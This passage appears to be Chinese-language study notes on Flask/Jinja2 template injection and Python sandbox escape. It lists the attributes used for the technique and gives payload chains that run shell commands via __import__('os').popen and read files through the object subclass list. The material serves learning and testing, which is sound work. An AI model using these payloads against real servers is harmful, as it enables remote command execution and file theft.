     

*   **常用的方法**

    ```
    __globals__ //返回一个由当前函数可以访问到的变量，方法，模块组成的字典，不包含该函数内声明的局部变量。
    
    __getattribute__()实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
    
    __builtins__   //返回一个由内建函数函数名组成的列表。
    
    __getitem__(index)  //返回索引为index的值。
    
    url_for  //可以直接和__globals__配合，如：url_for.__globals__['__builtins__']，或者和string等配合，详情看迭代器部分
    
    lipsum  //flask的一个方法,可以直接和__globals__配合，如：lipsum.__globals__['__builtins__']，或者和string等配合，详情看迭代器部分
    
    __init__   //该方法用于将对象实例化，如x.__init__.__globals__['__builtins__']
    //{{''.__class__.__mro__[-1].__subclasses__()["type"].__init__.__globals__}}像这种找到了类要查看该类的方法要先__init__再用__globals__，直接用__globals__会报错
    
    config  //查看配置文件
    
    __doc__   //获取到注释内容
    
    get_flashed_messages // flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
    
    __dic__     // 类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
    
    current_app          应用上下文，一个全局变量。
    
    __import__     //动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
    
    ```
    
*   变量

    我们可以通过`.`,`[]`,`_getitem_`魔法方法来访问变量的属性

    如果是字典的键值，也可以用pop(),get(),setdefault()函数获取

    eg：`__globals__.pop('__builtins__')`

    但pop()函数会删除里面的键

    

### 利用方法

知道了上面的基础知识，就可以尝试从沙盒中的变量到全局变量：`变量->对象->基类->子类遍历->全局变量`

```
eg: //不直接通过open而来打开一个文件
''.__class__.__mro__[-1].__subclasses__()[40]("C:/Users/TPH/Desktop/test.txt").read() 
分析：
''//字符
''.__class__//获取到''的类型,即字符型
''.__class__.__mro__[-1]//获取到字符型的基类，取最后一个即object
''.__class__.__mro__[-1].__subclasses__()[40]//继承object的子类，返回一个列表并取(40, <type 'file'>)
''.__class__.__mro__[-1].__subclasses__()[40]("C:/Users/TPH/Desktop/test.txt").read()//在将文件路径传入file类中并调用read()方法读取文件
```

